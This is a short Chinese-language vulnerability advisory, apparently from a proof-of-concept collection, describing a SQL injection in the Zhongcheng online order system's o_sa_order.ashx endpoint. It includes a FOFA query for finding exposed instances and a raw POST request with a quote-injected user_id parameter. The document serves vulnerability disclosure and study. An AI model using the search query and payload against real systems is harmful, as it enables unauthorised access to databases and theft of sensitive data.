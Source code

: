 # 众诚网上订单系统o_sa_order存在SQL注入漏洞

# 一、漏洞简介
众诚网上订单系统o_sa_order存在SQL注入漏洞，攻击者可获取数据库敏感信息。

# 二、影响版本
+ DBApi

# 三、资产测绘
+ fofa`title="欢迎使用众诚网上订单系统"`
+ 特征

![1725327701850-b2fe295e-5169-4bf6-a0bf-451d4d6b9a96.png](./img/3-Rm4Tgak8tfb8DR/1725327701850-b2fe295e-5169-4bf6-a0bf-451d4d6b9a96-637276.png)

# 四、漏洞复现
```plain
POST /ajax/o_sa_order.ashx HTTP/1.1
Host: 
Content-Length: 42
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
 
type=login&user_id=admin'&user_pwd=1111111
```

![1725327746928-f84f08d3-735c-4fb4-9b17-0fafb6d5bb35.png](./img/3-Rm4Tgak8tfb8DR/1725327746928-f84f08d3-735c-4fb4-9b17-0fafb6d5bb35-682291.png)





> 更新: 2024-10-22 09:36:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ey0ogvbchsz4zpil>